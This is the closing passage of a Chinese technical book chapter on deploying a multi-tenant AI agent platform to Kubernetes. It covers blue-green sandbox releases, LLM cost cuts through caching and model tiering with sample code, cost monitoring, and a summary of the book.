### Skill 沙箱的蓝绿发布

第 5 章实现的 Skill 沙箱进程有特殊性：用户的 Skill 代码绑定到某个沙箱镜像版本。沙箱镜像升级时（比如 Node.js 安全补丁），不能简单滚动更新——升级期间正在执行的 Skill 会被中断。

蓝绿发布：

1. 部署新版本沙箱 Deployment（`sandbox-v2`），与老版本（`sandbox-v1`）并存
2. 新版本通过 readiness 检查后，把 Service 的 selector 从 `version: v1` 改成 `version: v2`，所有新请求路由到新版本
3. 老版本 Pod 上正在跑的 Skill 跑完后，Deployment 缩容到 0
4. 验证 1 小时无回归，删除老版本 Deployment

K8s Service 的 selector 切换是原子的，新请求秒切到新版本。老版本上的连接不受影响，自然衰减。

## 12.7 成本优化路径

LLM 成本是 AgentFlow 最大的运营开销。一个真实数字：早期上线时，租户 A 单日 LLM 账单 $1700，月化超过 $50K。这一节复盘从 $50K 压到 $5K 的全过程。

### Phase 1（原型阶段，月 $50K）

特征：

- 所有请求一律走 Claude Sonnet
- 没启用 prompt caching
- 没有任何缓存层
- Agent 走满全部 step，每个 step 都调一次 LLM

这是最简单的实现，也是最贵的。租户 A 一天 5 万会话，平均每会话 4 轮 Agent 调用，每次调用 input 5000 token、output 800 token：

```
input tokens:  5万 × 4 × 5000 = 10亿
output tokens: 5万 × 4 × 800  = 1.6亿
Sonnet 单价:   input $3/M, output $15/M
日成本:        10亿 × $3/M + 1.6亿 × $15/M = $3000 + $2400 = $5400
```

实际比这个低，因为不是所有会话都跑满 4 轮，但月化 $50K 是可信的。

### Phase 2（启用 prompt caching + 模型分级，月 $20K）

**prompt caching**：第 4 章讲过，Anthropic 的 prompt caching 让重复的 system prompt 部分计费降到 1/10。AgentFlow 的 system prompt 包含 RAG 检索到的知识 chunk、可用 Skill 列表、租户配置——前两部分在一个会话内复用度极高。开启 caching 后，input cost 降 40%。

**模型分级**：不是所有 step 都需要 Sonnet。

- **意图分类**：判断用户问的是订单还是退款。简单分类，Haiku 足够（$0.25/M input vs Sonnet $3/M，便宜 12 倍）。
- **简单 Skill**：查订单状态、生成快递链接。结构化输出，Haiku 够用。
- **复杂推理**：多轮工具调用、跨知识库综合回答。继续 Sonnet。

第 3 章的 Agent 引擎支持 per-step model 配置，把简单 step 切到 Haiku 后，整体 token 单价降 60%（虽然 token 数没变）。

两项叠加：$50K → $20K。

### Phase 3（语义缓存，月 $8K）

**语义缓存**：客服场景重复问题多。"我的订单到哪了"、"怎么退款"、"门店地址"这类问题每天被问几千次，回答几乎一样。第 6 章的 RAG 已经有 embedding，复用过来做缓存 key：

```typescript
// 伪代码
async function answer(question: string): Promise<string> {
  const embedding = await embed(question);
  const cached = await semanticCache.get(embedding, { threshold: 0.95 });
  if (cached) return cached;

  const answer = await agent.run(question);
  await semanticCache.set(embedding, answer, { ttl: 3600 });
  return answer;
}
```

阈值 0.95（余弦相似度）保证命中的问题真的语义接近，不会瞎答。租户 A 的实测命中率 50%，意味着一半请求不调 LLM。$20K → $8K。

### Phase 4（精细化，月 $5K）

- **自托管 embedding 模型**：第 6 章默认用 `voyage-3`（备选 `text-embedding-3-small`），都按 token 计费。换成自托管的 BGE-base-zh（CPU 推理就够，无 GPU），按机器成本固定。$8K → $6K。
- **Reflector 跳过**：Agent 流程里的 Reflector step（第 3 章）评估"是否还需要再调一次 Skill"。简单查询（意图分类已经判定为"单跳问题"）直接跳过 Reflector。step 数减少，token 数减少。$6K → $5K。
- **按租户配额**：在 LLM Gateway 层（第 4 章）按租户日预算硬性限制。超额请求降级到 Haiku 或返回标准回复。这一招不是省钱，是防止"一个租户烧光所有人预算"。

### 成本监控

省钱靠数据，不靠拍脑袋。AgentFlow 在 LLM Gateway 层记录每次调用的 tenant_id、model、input_tokens、output_tokens、cost_usd，每小时聚合到一张报表表：

```sql
CREATE TABLE llm_cost_daily (
  tenant_id  text NOT NULL,
  date       date NOT NULL,
  model      text NOT NULL,
  total_input_tokens  bigint,
  total_output_tokens bigint,
  total_cost_usd      numeric(12, 4),
  call_count int,
  PRIMARY KEY (tenant_id, date, model)
);
```

Grafana 看板按租户、按模型、按日切片。告警规则：单租户单日成本超过过去 7 日均值的 1.5 倍触发告警，人工介入排查（很可能是新功能上线导致 token 暴涨，或者租户内部脚本死循环狂调）。

## 对三个租户意味着什么

部署形态是这本书里租户差异最大的一章——三个租户最终走的不一定是同一份 K8s 集群。

**租户 A（电商）**：HPA 自动扩缩容是核心机制，12.2 节的 CPU + 队列深度双指标驱动 HPA 是为双十一这类峰值场景准备的。常态 Pod 数和峰值 Pod 数差几十倍，扩缩容速度比稳态资源利用率更重要。

**租户 B（SaaS 软件）**：在线对话不能因为发版被打断，12.6 节的 preStop + graceful shutdown + SSE 流保护是租户 B 必须打开的能力。schema 变更走两步走（新旧字段并存→切流→清理），不允许停机迁移。

**租户 C（金融机构）**：很可能不在共享 K8s 集群里，而是走私有化部署。这章的 Helm chart 要做成"参数化模板"——同一份 chart 既能部署到 SaaS 共享集群（多租户），也能部署到客户自己的机房（单租户、自主管控）。LLM Gateway 在私有化场景下指向客户自己签约的 Anthropic/OpenAI 账号，cost 看板只看本租户数据。

## 12.8 本章小结与全书总结

本章把 AgentFlow 从单机部署到了 K8s：多阶段 Dockerfile 把镜像从 1.2GB 压到 350MB；Deployment 配 readiness/liveness 分离的健康检查，HPA 用 CPU + 队列深度双指标驱动扩缩；Postgres 用云托管 + PgBouncer，pgvector 超过 1000 万条时双写迁移到 Qdrant；Redis Cluster 用 hash tag 避免跨 slot 操作；零停机发布靠 preStop 和应用层 graceful shutdown 保护 SSE 流，schema 变更两步走；最后用 prompt caching、模型分级、语义缓存、自托管 embedding 把月成本从 $50K 压到 $5K。

回头看全书 12 章：

- 第 1 章定下了 AgentFlow 的多租户架构和规模目标（1M session、10-50K QPS）
- 第 2 章建立了"单机模拟生产"的写代码规则，让本地开发的代码能平滑迁到生产
- 第 3 章实现了 Agent 引擎（Planner / Executor / Reflector）
- 第 4 章封装了 LLM Gateway，做模型路由、计费、prompt caching
- 第 5 章用 isolated-vm 实现了 Skill 沙箱
- 第 6 章用 pgvector + LlamaIndex 实现了 RAG 知识库
- 第 7 章实现了会话状态（Redis 短期 + Postgres 长期）
- 第 8 章用 Postgres RLS 做了多租户数据隔离
- 第 9 章覆盖了安全：审计日志、prompt injection 防御、密钥管理
- 第 10 章用 Circuit Breaker、令牌桶、DLQ 解决了高并发稳定性
- 第 11 章接入 OpenTelemetry + Langfuse 做端到端观测
- 第 12 章把这一切部署到 K8s

读完这 12 章，读者应该能独立做的事：

- 从零搭建一个多租户 LLM 应用的工程骨架
- 设计 Agent 引擎的 Plan/Execute/Reflect 循环
- 选型并集成向量数据库、会话存储、任务队列
- 在 Postgres 上用 RLS 做硬性的租户隔离
- 在 LLM 调用链路上做限流、熔断、降级
- 用 OpenTelemetry 追踪一次 Agent 调用的全链路
- 把项目部署到 K8s 集群，扛得住生产流量
- 持续优化成本，把 LLM 账单控制在合理水位

下一步可以扩展的方向：多模态（图像、音频）、Agent 自我进化（基于反馈优化 prompt）、跨租户的 Federated 知识共享、私有化部署形态。这些都是后续单独成书的题目，本书不展开。

工程的事讲到这里就够了。剩下的，去写代码。

## 参考资料

- Kubernetes 官方文档：[Configure Liveness, Readiness and Startup Probes](https://kubernetes.io/docs/tasks/configure-pod-container/configure-liveness-readiness-startup-probes/)
- Kubernetes 官方文档：[Horizontal Pod Autoscaling](https://kubernetes.io/docs/tasks/run-application/horizontal-pod-autoscale/)
- PgBouncer 官方文档：[pool_mode](https://www.pgbouncer.org/config.html#pool_mode)
- Redis 官方文档：[Redis Cluster Specification - Keys hash tags](https://redis.io/docs/reference/cluster-spec/#hash-tags)
- Anthropic 官方文档：[Prompt caching](https://docs.anthropic.com/en/docs/build-with-claude/prompt-caching)
- Qdrant 官方文档：[Migration from pgvector](https://qdrant.tech/documentation/tutorials/)

---

> 本章来自《百万级 AI Agent 平台架构》开源版 · 作者「递归客」  
> 在线阅读完整书系：[inferloop.dev](https://inferloop.dev)  
> 源码仓库：[github.com/diguike/book-enterprise-agent](https://github.com/diguike/book-enterprise-agent)
